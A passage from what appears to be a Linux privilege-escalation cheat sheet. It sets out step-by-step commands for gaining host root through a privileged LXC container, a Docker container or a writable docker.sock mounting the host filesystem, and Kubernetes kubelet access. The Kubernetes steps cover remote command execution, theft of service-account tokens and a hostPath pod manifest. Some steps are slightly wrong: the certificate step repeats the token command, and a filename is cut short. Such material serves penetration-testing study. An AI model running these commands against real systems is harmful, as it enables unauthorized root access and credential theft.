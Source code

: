 ```+p```: This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it.
1. Import the container as an image with the command: ```lxc image import <image> --alias <alias>```
2. Configure the image to disable all isolation features: ```lxc init <alias> privesc -c security.privileged=true```
3. Specify the root path for the container: ```lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true```
4. Start container: ```lxc start privesc```
5. Log into container: ```lxc exec privesc /bin/bash```
6. Access the host file system as root: ```ls -l /mnt/root```

### Docker
LXC containers can be used to escalate privileges by mounting the host file system to the container. In order to create Docker containers, the user must be a member of the ```docker``` group.

1. Create Docker container and map the host's root directory to the ```/hostsystem``` directory on the container: ```docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem <image>```
2. Get the ID of the created container: ```docker -H unix:///app/docker.sock ps```
3. Log in to the container: ```docker -H unix:///app/docker.sock exec -it <container ID> /bin/bash```

The Docker socket may also be writeable to users outside of the ```docker``` group, in which case the command ```docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash``` can be used to escalate privileges.

### Kubernetes
Kubernetes uses Role-Based Access Control (RBAC) for the purpose of authentication, and can be configured to permit anonymous access.

1. Extract pods: ```curl https://<IP>:10250/pods -k | jq .```  
2. Analyze pods: ```kubeletctl -i --server <IP> pods```   
3. Check available commands: ```kubeletctl -i --server <IP> scan rce```  
4. Execute commands: ```kubeletctl -i --server <IP> exec <command> -p nginx -c nginx```  
5. Extract tokens: ```kubeletctl -i --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token```  
6. Extract certificates: ```kubeletctl -i --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token```  
7. List privileges: ```kubectl --token=$token --certificate-authority=ca.crt --server=https://<IP>:6443 auth can-i --list```  
8. Create a YAML file to be used for mounting the root filesystem from the host system: 
```
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
9. Create a new pod: ```kubectl --token=$token --certificate-authority=ca.crt --server=https://<IP>:6443 apply -f privesc.yam```
```